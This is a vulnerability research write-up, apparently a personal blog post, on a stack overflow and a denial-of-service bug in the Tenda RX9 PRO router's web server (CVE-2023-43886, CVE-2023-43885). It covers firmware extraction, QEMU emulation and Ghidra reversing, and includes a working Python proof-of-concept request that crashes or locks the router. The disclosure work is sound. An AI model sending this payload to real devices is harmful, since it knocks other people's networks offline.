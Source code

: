 ```yaml
---
layout: post
title: Tenda RX9 PRO - Stack Overflow Vulnerability + DoS | CVE-2023-43886 and CVE-2023-43885
---
```


This post will describe how I found this vulnerability and give step by step instructions to follow.  
It was found on September 19th on the Firmware version `V22.03.02.20`

## Extracting the Firmare
Extracting the firmware is nothing complicated.

Once downloaded the zip from the [official site](https://www.tendacn.com/download/detail-4514.html), put it in a folder and run `binwalk -Me ./` to extract all
of its contents.

Once done, you can find the root folder at `_US_RX9ProV1.0in_V22.03.02.20_multi_TDE01.bin.extracted/squashfs-root`

## Setting up the scene for easier testing with QEMU
The target http server binary is in `/usr/sbin/httpd`, running `file` on it shows:

```
./usr/sbin/httpd: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-mips-sf.so.1, no section header
```

Pro tip: If you struggle to find the `httpd` executable, you can just `grep -r AdvGetMacMtuWan`. The string im searching for comes from `/www/goform/`, ALL the files in there correspond to a funciton (and a string) in the main executable :> Very handy

Therefore we need a mips QEMU to run this. Since the whole code is made to be run having the File System Root as the image root, we will use a `static` version of qemu, copied into the root:

Install Qemu with:

```sh
apt-get install qemu-system qemu-user-static

cp $(which qemu-mips-static) ./
```

Command to execute HTTP Server:

```sh
sudo chroot ./ ./qemu-mips-static ./usr/sbin/httpd
```

You can now test around if you want... However, not everything will be functioning

## Starting the reversing
After we have a functioning server so we can test our payloads faster, we take the `httpd` executable and throw it in Ghidra.

As noted before, this executable will contain all the filenames (without the `.txt`) contained in `/www/goform/`, therefore we can use Ghidra to find that string and follow its only XREF

![string xref in Ghidra](/images/tenda/StringXREF.png)

I have already renamed some functions, but this clearly just binds all files to the corresponding function in the executable.

![bindAll function](/images/tenda/bindAllFunction.png)

From here we just go to random functions, taking what by logic could take some inputs...
This part is the time consuming part and also the part that seems like magic to the readers, basically it's nothing but reading reversed code until you find something, rarely it is fast but we will skip over all the functions I reversed for nothing :>

## The interesting function
After a few reversed functions, I set my eyes on one that looked at least a bit interesting: `SetOnlineDevName`.

We see the parameters `mac` and `devName` (the function was renamed by me, you will however easily notice that this is the parameters function by seeing how it's always called at the beginning of every `Set` operation with a string and the parameter as inputs)

![params](/images/tenda/getParam.png)

Following this parameter (to highlight a variable in all the decompilation in Ghidra, press the middle mouse button on it) we see that it gets passed in a function call to an external function...

Time to reverse the library too! :D

Maybe a little "ignorant" but this is the way that I found the correct library exporting the function I wanted:

```sh
readelf -d ./usr/sbin/httpd
grep -r update_dev_name
```

![finding libs](/images/tenda/findingLib.png)

I'm sure there's better ways, but oh well, it's `libtd_server.so` :P

Well, it doesn't take much to locate the function here since it's exported and therefore we already have its name in the symbols...

The first thing that catches my eye is that function call where the only length that was given is the length of the input, without considering the length of the other parameter which... mmh...

The condition to reach it is very simple, it checks if the encoding is chinese (cn) (this can be found in `libcommon.so`) and if it is then it runs that function... 

![update_dev_name](/images/tenda/vuln.png)

The fun part is that any other path actually uses the correct length:

![correct length](/images/tenda/others.png)


So let's prepare a test payload and a script to quickly test this:

```py
import requests


addr: str = "127.0.0.1"  # 192.168.1.206


def payload(s: requests.Session):
	data = {
		'mac': 'A' * 0x1F,
		'devName': '中' * 128 + 'A'*1024,
	}
	
	# This will hang forever
	s.post(f'http://{addr}/goform/SetOnlineDevName', data=data)


def login(s: requests.Session, username: str, password: str):

    # The Password is sent pre-hashed from the page,
    # you might just want to grab it from the dev tools on your browser
	data = {
		'username': username,
		'password': password,
	}
	s.post(f'http://{addr}/login/Auth', data=data)


if __name__ == "__main__":
	s = requests.Session()
	login(s, "admin", "YOURPASSWORDHERE")
	payload(s)

```

Sending this to your locally running (or actual device) httpd process will effectively give you a nice `segmantation fault (core dumped)` :>

![gdb](/images/tenda/gdb.png)

Remember that gdb uses your host's Endianess, which for x86 is Little Endian while the binary is Big Endian (and I didn't set it in the above screenshot).

This was assigned CVE-2023-43886

### Bonus
As a bonus DoS attack, if you send a `mac` of just 1 more byte than what I've put in the code above you will effectively send the router in a `trap()` which will lock the router until it is restarted. This was assigned CVE-2023-43885

